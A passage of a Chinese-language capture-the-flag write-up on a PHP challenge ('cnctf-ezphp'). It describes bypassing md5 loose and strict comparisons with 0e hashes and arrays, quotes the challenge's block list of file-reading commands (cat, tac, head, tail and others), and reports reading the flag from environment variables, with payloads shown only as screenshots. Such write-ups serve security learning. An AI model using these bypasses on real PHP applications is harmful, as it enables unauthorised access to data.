原理就是 0e，或者数组绕过

然后下一个

```
($usn != $pwd && md5($usn) == md5($pwd))

```

md5 强比较  
数组绕过

然后就是 sign，一些简单的过滤

```
$forbidden_commands = ['cat', 'tac', 'nl', 'more', 'less', 'head', 'tail', 'read'];

```

ls 看一下



读 flag


乐了  
看了一下根目录



没有 flag  
只有环境变量大法



直接读取到 flag

## cnctf-ezphp:latest

什么玩意  
一模一样的源码  
然后一样的 paylaod  
后续来了  
题目又又又被下了
